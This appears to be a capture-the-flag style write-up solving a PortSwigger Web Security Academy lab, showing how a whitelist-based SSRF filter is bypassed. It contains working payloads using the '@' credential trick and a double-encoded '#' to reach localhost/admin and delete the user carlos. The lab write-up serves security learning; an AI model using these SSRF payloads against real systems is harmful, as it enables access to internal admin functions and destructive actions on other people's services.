

- **Author:** sonyahack1
- **Date:** 24.04.2025

---

## Intercept request

```html

POST /product/stock HTTP/2
Host: 0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Cookie: session=***********************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```none

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

```
> with 'Hackvertor' extension

```none
stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>
```

> I need to bypass an anti-SSRF filter like white-based input filter
> The server expects to receive a request with data that is allowed to be processed. For example, they are on a white list of allowed values.

> Ok. I will try some methods that probably work.

> I know that there is logic on the server side to check the domain that the request comes to. For example, if i try to change "stock.weliketoshop.net"
> to any other domain, then i will get an error from the server that the request should be made only to "stock.weliketoshop.net".

> For example:

> Request

```none

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```
> Response

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"

```
> So. There are several ways that can help to trick the server filter and make it make a request to an allowed domain. It is important to remember that I am trying to
> bypass the filtering at the level of the application code itself, so that the server makes the request further away from itself, and then the request itself with the
> parsing function and url-encoding. 

> When a URL has '@', everything before the '@' is considered credentials (login and password). And everything after the '@' is considered the real host.
> The '#' symbol in the URL is the beginning of a fragment that is not sent at all. It is only for browsers

> Ok. add the '@' symbol before expected-host and send the request

```none

stockApi=<@urlencode>http://localhost@stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>

```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

395

```
> Ok. Since the server handles such a request successfully, ignoring what is specified before the @ symbol, I just need to remove the extra part of the URL
> fragment and leave only 'http://localhost/admin'.

> add the double url-encoded "#" symbol, because after the request, decoding will be done during parsing.


```none
stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```



> delete Carlos user


```none
stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```


